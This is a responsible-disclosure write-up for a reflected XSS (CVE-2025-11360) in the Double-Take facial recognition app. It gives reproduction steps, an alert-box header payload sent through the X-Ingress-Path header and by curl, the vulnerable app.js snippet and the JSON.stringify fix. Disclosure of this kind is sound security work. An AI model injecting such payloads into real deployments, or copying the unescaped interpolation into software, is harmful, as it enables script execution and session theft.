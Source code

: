 # CVE-2025-11360 - XSS in 'Double-Take' Facial Recognition Software

Unauthenticated Reflected Cross-Site Scripting (XSS) vulnerability in version <=1.13.1 of double-take: https://github.com/jakowenko/double-take and https://hub.docker.com/r/jakowenko/double-take.
The maintainer fixed the vulnerability in version 1.13.2 after I responsibly disclosed the issue to him.

Specifically, the vulnerability is located in the `api/src/app.js` file, which evaluates unsanitized HTTP GET headers passed via the `'X-Ingress-Path'` header.
This allows an attacker to inject arbitrary JavaScript into the response, resulting in reflected XSS when the UI is accessed with a malicious header present.

## Affected Versions:
double-take <=1.13.1, github commit: 8e2728d283b3901d688c2454086fd0b512739b53

## Fixed Version:
double-take 1.13.2, github commit: 92521a0bc8ba70f64c4f794332d48387663ba20e

## CVSS v3.1 Score: 4.3 (Medium)
Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N

## Proof of Concept and Steps to Reproduce:

1. Download "Double Take" <=1.13.1:
`https://github.com/jakowenko/double-take/archive/refs/tags/v1.13.1.zip`

`cd double-take-1.13.1`

2. Point docker-compose.yml to version 1.13.1:

`docker-compose.yml`
```
version: '3.7'

volumes:
  double-take:

services:
  double-take:
    container_name: double-take
    image: jakowenko/double-take:1.13.1
    restart: unless-stopped
    volumes:
      - double-take:/.storage
    ports:
      - 3000:3000
```

3. Start "Double Take" using docker compose:
`docker compose up -d`

5. Set the following HTTP header in Chrome (via the ModHeader extension or similar):
`X-Ingress-Path: ';window.onload = function() { alert(1); }//`


6. Visit the Double-Take UI in a browser:
`http://localhost:3000`

You will see a JavaScript popup alert - confirming JavaScript execution.

6. Alternatively, executing via curl demonstrates that the windows.ingressUrl parameter populates with the payload:

`curl -H "X-Ingress-Path: ');window.onload = function() { alert(1); }//" http://localhost:3000/`


## Impact:
This vulnerability is an example of Unauthenticated Reflected XSS. An attacker who compromises this flaw could execute arbitrary JavaScript in a victim's browser session, steal session cookies or authentication tokens,
extract sensitive information, or impersonate users to deliver social engineering attacks. This particular exploit requires header injection (via `X-Ingress-Path`),
but it still can be exploited in the wild via misconfigured reverse proxies, malicious browser extensions, or insecure internal tooling that injects headers. Exploiting this vulnerability via a proxy is particularly dangerous since double take is often used in home lab setups, where users setup reverse proxies to access their servers from outside of their own network. A compromised proxy could trivially exploit this vulnerability for arbitrary user requests being sent to the internal server double take runs on.

## Remediation:
The core vulnerability stems from the html.replace() function (lines 27-34) in `double-take/api/src/app.js`:

    html.replace(
      '</head>',
      `<script>
        window.ingressUrl = '${req.headers['x-ingress-path'] || ''}';
        window.publicPath = '${UI?.PATH || ''}';
      </script>
      </head>`
    )

This function directly embeds unsanitized input from the `X-Ingress-Path` header of a `GET` request into a JavaScript `<script>` block. 
In order to prevent this exploit, I recommended safely escaping values with a function like `JSON.stringify()`:

```
const ingressUrlSafe = JSON.stringify(req.headers['x-ingress-path'] || '');
const publicPathSafe = JSON.stringify(UI?.PATH || '');

res.send(
  html.replace(
    '</head>',
    `<script>
      window.ingressUrl = ${ingressUrlSafe};
      window.publicPath = ${publicPathSafe};
    </script>
    </head>`
  )
);
```

The project maintainer implemented my fix in v1.13.2, as can be seen in the commit comment history on github (92521a0bc8ba70f64c4f794332d48387663ba20e).
